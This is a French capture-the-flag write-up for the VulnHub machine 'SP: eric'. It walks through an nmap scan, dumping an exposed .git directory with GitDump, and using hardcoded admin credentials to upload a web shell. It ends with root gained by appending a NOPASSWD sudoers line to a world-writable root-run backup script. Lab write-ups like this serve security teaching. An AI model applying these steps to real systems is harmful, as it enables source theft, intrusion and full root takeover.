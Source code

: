 # Solution du CTF SP: Eric de VulnHub

Le CTF [SP: eric](https://www.vulnhub.com/entry/sp-eric,274/) proposé sur VulnHub m'aura occupé quelques minutes. Avec une bonne énumération et les bons outils il tombe vite.

```
Nmap scan report for 192.168.56.76
Host is up (0.00025s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d379153d114caf266cb2af6a0b9914fd (RSA)
|   256 8748763881c2a050cd4c39c07c7a0740 (ECDSA)
|_  256 8eb9dd8d149be3631dd70e54988d295b (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Blog under construction
| http-git: 
|   192.168.56.76:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: minor changes 
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

J'avais lancé en parallème un `feroxbuster` qui a remonté les fichiers suivants sur le port 80 :

```
200       15l       27w      306c http://192.168.56.76/admin.php
200       13l       38w      281c http://192.168.56.76/index.php
301        9l       28w      315c http://192.168.56.76/upload
```

Allons voir du côté de ce dossier *.git* avec [GitDump: A pentesting tool that dumps the source code from .git even when the directory traversal is disabled](https://github.com/Ebryx/GitDump) :

```bash
$ python3 git-dump.py 
Please provide website URL with /.git/ directory e.g. example.com/.git/
$ python3 git-dump.py  http://192.168.56.76/.git/
URL for test: http://192.168.56.76/.git/
Fetching: http://192.168.56.76/.git/index
Fetching: http://192.168.56.76/.git/FETCH_HEAD
Fetching: http://192.168.56.76/.git/HEAD
Fetching: http://192.168.56.76/.git/ORIG_HEAD
Fetching: http://192.168.56.76/.git/config
Fetching: http://192.168.56.76/.git/description
Fetching: http://192.168.56.76/.git/info/exclude
Fetching: http://192.168.56.76/.git/info/refs
Fetching: http://192.168.56.76/.git/logs/HEAD
Fetching: http://192.168.56.76/.git/logs/refs/heads/develop
Fetching: http://192.168.56.76/.git/logs/refs/heads/master
Fetching: http://192.168.56.76/.git/packed-refs
Fetching: http://192.168.56.76/.git/logs/refs/remotes/origin/develop
Fetching: http://192.168.56.76/.git/logs/refs/remotes/origin/master
Fetching: http://192.168.56.76/.git/logs/refs/remotes/origin/step_develop
Fetching: http://192.168.56.76/.git/refs/heads/develop
Fetching: http://192.168.56.76/.git/refs/heads/master
Fetching: http://192.168.56.76/.git/refs/remotes/origin/develop
Fetching: http://192.168.56.76/.git/refs/remotes/origin/master
Fetching: http://192.168.56.76/.git/refs/remotes/origin/step_develop
Fetching: http://192.168.56.76/.git/refs/remotes/github/master
Fetching: http://192.168.56.76/.git/objects/info/packs
Fetching: http://192.168.56.76/.git/logs/refs/remotes/github/master
Fetching: http://192.168.56.76/.git/refs/remotes/origin/HEAD
Parsing Index File
Fetching: http://192.168.56.76/.git/objects/cc/1ab96950f56d1fff0d1f006821cab6b6b0e249
Fetching: http://192.168.56.76/.git/objects/3d/b5628b550f5c9c9f6f663cd158374035a6eaa0
Fetching: http://192.168.56.76/.git/objects/23/448969d5b347f8e91f8017b4d8ef6edf6161d8
Fetching: http://192.168.56.76/.git/objects/a8/9a716b3c21d8f9fee38a0693afb22c75f1d31c
Fetching: http://192.168.56.76/.git/objects/00/00000000000000000000000000000000000000
Fetching: http://192.168.56.76/.git/objects/c0/951efcb330fc310911d714acf03b873aa9ab43
Fetching: http://192.168.56.76/.git/objects/f6/4fb0e9d514c96dd3debd4cdb2b80ba21951dec
Script Executed Successfully
Run following command to retrieve source code: cd output && git checkout -- .
$ cd output && git checkout -- .
$ ls
admin.php  index.php
```

La totalité de la logique du site est présente dans `admin.php`. Je vous en laisse un extrait seulement :

```php
if ($_POST['submit']) {
    if ($_POST['username'] == 'admin' && $_POST['password'] == 'st@mpch0rdt.ightiRu$glo0mappL3') {
        $_SESSION['auth'] = 1;
    } else {
        exit("Wrong username and/or password. Don't even bother bruteforcing.");
    }
}
```

L'accès à l'interface admin à l'aide de ces identifiants nous permet d'uploader un web shell vers le dossier `/upload`.

Après comme à mon habitude j'utiliser reverse-ssh pour avoir un shell avec PTY.

```bash
www-data@eric:/home/eric$ ls
total 64K
drwxr-xr-x 4 eric eric 4.0K Dec 20 16:27 .
drwxr-xr-x 3 root root 4.0K Oct 28  2018 ..
-rw------- 1 eric eric   81 Dec 23  2018 .bash_history
-rw-r--r-- 1 eric eric  220 Oct 28  2018 .bash_logout
-rw-r--r-- 1 eric eric 3.7K Oct 28  2018 .bashrc
drwx------ 2 eric eric 4.0K Oct 28  2018 .cache
drwxrwxr-x 3 eric eric 4.0K Oct 28  2018 .local
-rw-r--r-- 1 eric eric  807 Oct 28  2018 .profile
-rw-r--r-- 1 eric eric    0 Oct 28  2018 .sudo_as_admin_successful
-rwxrwxrwx 1 root root   55 Oct 28  2018 backup.sh
-rw-r--r-- 1 root root  24K Dec 20 13:27 backup.zip
-rw-r--r-- 1 root root   13 Oct 28  2018 flag.txt
www-data@eric:/home/eric$ cat flag.txt 
89340a834323
```

Le contenu du script bash est le suivant :

```bash
#!/bin/bash
zip -r /home/eric/backup.zip /var/www/html
```

Il est visiblement exécuté régulièrement avec les droits root car le `backup.zip` est récent.

Je rajoute la ligne suivante dans le script :

```bash
echo "www-data ALL=(ALL) NOPASSWD: /bin/bash" >> /etc/sudoers
```

et 3 minutes plus tard :

```bash
www-data@eric:/home/eric$ sudo /bin/bash
root@eric:/home/eric# id
uid=0(root) gid=0(root) groups=0(root)
root@eric:/home/eric# cd /root
root@eric:~# ls
flag.txt
root@eric:~# cat flag.txt
6a347b975dd18ae6497c
```

*Publié le 20 décembre 2022*

